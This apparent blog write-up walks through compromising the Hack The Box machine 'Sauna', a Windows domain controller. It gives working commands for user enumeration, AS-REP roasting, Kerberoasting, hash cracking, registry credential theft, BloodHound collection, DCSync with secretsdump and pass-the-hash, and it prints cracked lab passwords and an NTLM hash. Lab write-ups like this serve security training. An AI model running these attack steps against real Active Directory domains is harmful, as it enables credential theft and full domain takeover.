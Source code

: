 ```yaml
---
layout: post
title: Write up for Sauna Machine from Hach The Box
categories: [writeup]
tags: [HTB, AD, AS-REP Roasting, DCSync]
---
```


![](/assets/sauna/Sauna.png)

---|---
**PLATFORM**    | HackTheBox
**MACHINE**     | Sauna
**OS**          | Windows
**IP**          | 10.10.10.175
**FQDN**        | egotistical-bank.local

## **Summary**

A valid user `fsmith` was found using the employees names at the website, this user had kerberos pre-authentication disabled which allows an attacker to get a hash he can crack to retrieve his password. Another user's credentials were found at the registry, this user `svc_loanmgr` was able to request a replication from the domain controller including all th domain users' NTLM hashes.

## **Enum**

### **nmap**

Initial nmap scan revealed multiple open ports such as 88 (kerberos), 445 (SMB), 5985 (winrm) which indicates that this is a domain controller. We can also see the domain name `egotistical-bank.local` and the hostname `SAUNA`.

```sh
sudo nmap 10.10.10.175 -sS -p- -T4 -oN nmap/ss.nmap
ports=$(cat nmap/ss.nmap | grep open | awk '{print $1}' | tr -d '/tcp' | tr '\n' ',')
nmap 10.10.10.175 -sV -p $ports -oN nmap/svc-full.nmap
```

![](/assets/sauna/000.png)

### **http**

The website doesn't have any functionalities, the only thing we got from it was a list of names at `/about.html`

![](/assets/sauna/003.png)

**users.txt:**
```
Fergus Smith
Shaun Coins
Hugo Bear
Bowie Taylor
Sophie Driver
Steven Kerb
```

### **smb**

We tried enumerating shares without providing any credentials but we were unable to do so.

```sh
crackmapexec smb 10.10.10.175 -u '' -p '' --shares
```

![](/assets/sauna/002.png)

### **kerberos**

#### **fsmith**

Using the list of names we retrieved from the website, we generated possible usernames with the help of [username-anarchy](https://github.com/urbanadventurer/username-anarchy).

```sh
git clone https://github.com/urbanadventurer/username-anarchy
./username-anarchy/username-anarchy -i users.txt > usernames.txt
```

Then used `kerbrute` to find the valid ones, we only got one hit `fsmith`

```sh
kerbrute userenum --dc 10.10.10.175 --domain egotistical-bank.local usernames.txt
```

![](/assets/sauna/004.png)

The user `fsmith` had kerberos pre-authentication disabled which allowed us to request TGT without providing a password, part of the response is encrypted with the user's password. We could try to crack it offline.

```sh
GetNPUsers.py egotistical-bank.local/fsmith -dc-ip 10.10.10.175
```
![](/assets/sauna/005.png)

We cracked the hash and got `fsmith`'s password: `Thestrokes23`.

```sh
hashcat -a 0 -m 18200 asrep.hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
```

![](/assets/sauna/006.png)

We tried enumerating shares as `fsmith` but we found nothing

![](/assets/sauna/007.png)

#### **hsmith**

A user `hsmith` had an SPN. We tried to request a TGS but kerberos failed because the time in our machine is not syncronized with that of the DC

```sh
GetUserSPNs.py egotistical-bank.local/fsmith:Thestrokes23 -dc-ip 10.10.10.175 -request
```

![](/assets/sauna/009.png)

After syncronizing the time using `rdate`, we were able to get a TGS. Since part of the TGS is encrypted with the password of the user linked to the SPN, in this case `hsmith`, we could crack it and get the password.

```sh
sudo rdate -n 10.10.10.175 &&  GetUserSPNs.py egotistical-bank.local/fsmith:Thestrokes23 -dc-ip 10.10.10.175 -request
```

![](/assets/sauna/010.png)

We noticed that `hsmith` has the same password as `fsmith`: `Thestrokes23`

```sh
hashcat -a 0 -m 13100 tgs.hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
```

![](/assets/sauna/011.png)

### **ldap**

We dumped the domain using ldap

```sh
ldapdomaindump 10.10.10.175 -u egotistical-bank.local\\hsmith -p Thestrokes23 -o domaindump
```

## **Foothold**

The user `fsmith` is part of `Remote Management Users` group, which means he can access the machine using `winrm` protocol.

```sh
firefox domaindump/domain_users.html
```

![](/assets/sauna/014.png)

We connected to the DC using `evil-winrm`

```sh
evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23
```

![](/assets/sauna/015.png)

We downloaded `winPEAS.exe`

```sh
curl https://github.com/carlospolop/PEASS-ng/releases/download/20230702-bc7ce3ac/winPEASx64.exe -o winPEAS.exe
```
Then uploaded it to the DC from `evil-winrm`

```powershell
upload winPEAS.exe
```

Using `winPEAS.exe`, we found  autologon credentials : `EGOTISTICALBANK/svc_loanmanager:Moneymakestheworldgoround!`

![](/assets/sauna/016.png)

This credentials can be retrieved from the registry using this command

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```
The domain does not contain any user with the name `svc_loanmanager`, but there is `svc_loanmgr`

![](/assets/sauna/012.png)

We tried the password `Moneymakestheworldgoround!` with the user `svc_loanmgr` and we were able to authenticate.

```sh
crackmapexec smb 10.10.10.175 -d egotistical-bank.local -u svc_loanmgr -p Moneymakestheworldgoround!
```

![](/assets/sauna/017.png)

## **PrivEsc**

To find a path to escalate our privileges on the domain, we used [BloodHound](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/bloodhound#bloodhound)

First, we downloaded `SharpHound.ps1` to collect data.

```sh
wget https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1
```

Then we uploaded it to the DC from `evil-winrm`.

```powershell
upload bh/SharpHound.ps1
```

![](/assets/sauna/019.png)


After that, we loaded `Invoke-BloodHound` module to collect data.

```powershell
. .\SharpHound.ps1
invoke-bloodhound -collectionmethod all -outputdirectory C:\Users\fsmith\Documents\
```

![](/assets/sauna/020.png)

When it finished, we download the generated zip file into our machine

```powershell
download 20230620091852_BloodHound.zip bh/20230620091852_BloodHound.zip
```

![](/assets/sauna/021.png)

On our machine, we started bloodhound, and upload `20230620091852_BloodHound.zip`.

```sh
sudo neo4j start
bloodhound
```

![](/assets/sauna/022.png)

Going throught the results we found that `svc_loanmgr` have `DCSync` rights, these rights allows a user to request a replication from the DC including `ntds.dit` file which contains all domain users' NTLM hashes.

![](/assets/sauna/023.png)

We can perform a [DCSync](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync) attack and get the `Administrator`'s NTLM hash.

> To perform a `DCSync` attack, three permission are needed:
>
> * [DS-Replication-Get-Changes](https://learn.microsoft.com/en-us/windows/win32/adschema/r-ds-replication-get-changes) (1131f6aa-9c07-11d1-f79f-00c04fc2dcd2)
> * [Replicating Directory Changes All](https://learn.microsoft.com/en-us/windows/win32/adschema/r-ds-replication-get-changes-all) (	1131f6ad-9c07-11d1-f79f-00c04fc2dcd2)
> * [Replicating Directory Changes In Filtered Set](https://learn.microsoft.com/en-us/windows/win32/adschema/r-ds-replication-get-changes-in-filtered-set) (89e95b76-444d-4c62-991a-0facbeda640c)

As we already have the credentials for `svc_loanmgr` we could use Impacket's `secretsdump.py` to dump users' NTLM hashes.

```sh
secretsdump.py svc_loanmgr:'Moneymakestheworldgoround!'@10.10.10.175 -just-dc -outputfile dcsync/hashes
```

![](/assets/sauna/024.png)

Finally, we used pass-the-hash to authenticate using `evil-winrm` as `Administrator`.

```sh
evil-winrm -i 10.10.10.175 -u Administrator -H 823452073d75b9d1cf70ebdf86c7f98e
```

![](/assets/sauna/026.png)
